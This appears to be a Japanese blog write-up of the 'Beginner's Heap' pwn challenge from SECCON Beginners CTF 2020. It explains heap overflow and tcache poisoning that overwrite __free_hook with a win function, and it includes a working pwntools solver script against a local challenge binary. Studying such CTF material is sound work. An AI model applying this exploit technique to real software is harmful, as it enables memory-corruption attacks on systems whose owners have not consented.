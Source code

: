 ```yaml
---
title: "Beginner's Heap - SECCON beginners CTF 2020"
date: 2022-05-01T16:46:44+09:00
tags: ["pwn", "SECCONbeginnersCTF2020", "ptr-yudai's chall"]
draft: false
---
```


# Beginner's heap - SECCON beginners CTF 2020

[作問者writeup](https://ptr-yudai.hatenablog.com/entry/2020/05/24/174914#Pwn-293pts-Beginners-Heap-62-solves)

# 方針
Heap overflowによって、下のチャンクの`fd`とサイズを書き換えて、`tcache poisoning` によるwin関数の呼び出し。

# やる
`B`の領域を`malloc`して`free`することで、`tcache`（の0x20ようのスレッド）につなげる。
```
-=-=-=-=-= TCACHE -=-=-=-=-=
[    tcache (for 0x20)    ]
        ||
        \/
[ 0x000055dfd3002350(rw-) ]
        ||
        \/
[      END OF TCACHE      ]
-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

### 1. Bのfdを書き換える
`free`されたチャンク(freed chunk)の`fd`が`NULL`なので、次につながっているfreed chunkはない。
ここで、AのHeap Overflowを利用して、Bの`fd`を書き換えると`fd`に値が入るので、tcache君はBの次があると錯覚する。

`A*24 + 0x31 + __freehook`を与えた図。

![heap-view](/2022/04-30/img/heap-view.png)

### 2. fdを__free_hookで書き換える
`fd`を`__free_hook`（のアドレス）で書き換えると、`tcache`はこのようになる。

(tcacheを汚染しているので、これを`tcache poisoning`という)

```
-=-=-=-=-= TCACHE -=-=-=-=-=
[    tcache (for 0x20)    ]
        ||
        \/
[ 0x0000557af97c3350(rw-) ]
        ||
        \/
[ 0x00007effac9cc8e8(rw-) ]
        ||
        \/
[      END OF TCACHE      ]
-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

### 3. chunk sizeを0x30にする
chunk sizeが`0x20`のままだと、一向に`__free_hook`のアドレスが返ってこない。

`0x30`にすると、Bのfreed chunkは0x30用のtcacheに繋がれるので、`tcache`の先頭に`__free_hook`のアドレスが来る。

(0x20用のtcacheに`B`と`__free_hook`が繋がってるとき)
```
tcache [0x20] -> B -> __free_hook
tcache [0x30] -> NULL
```

↓↓↓

(Bのchunk sizeを0x30にして、malloc and freeしたとき)
```
tcache [0x20] -> __free_hook
tcache [0x30] -> B
```

### __free_hookにwin関数を書き込む
`B = malloc(0x18)`で返ってくるアドレスは、`__free_hook`であることがわかる。
`__free_hook`は、`free()`を実行したときに呼ばれるフック[^1]である。
したがって、`__free_hook`に`win`関数のアドレスを書き込んで`free()`をすることで、`win`関数が呼ばれる。

[^1]: フック(Hook)は、一回経由する場所というイメージである。

### solver

```python
from pwn import *

context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

def write(data):
    io.sendlineafter("> ", "1")
    io.sendline(data)

def malloc(data):
    io.sendlineafter("> ", "2")
    io.sendline(data)

def free():
    io.sendlineafter("> ", "3")

def describe_heap():
    io.sendlineafter("> ", "4")

io = process("./chall")

#leak address
io.recvuntil("<__free_hook>: ")
addr_free_hook = int(io.recvline(), 16)
print("__free_hook address: " + hex(addr_free_hook))

io.recvuntil("<win>: ")
addr_win = int(io.recvline(), 16)
print("win address: " + hex(addr_win))

payload = b"A"*0x18
payload += p64(0x31)
payload += p64(addr_free_hook)

malloc("")
free()
write(payload)

malloc("")
free()

malloc(p64(addr_win))
free()

io.interactive()
```
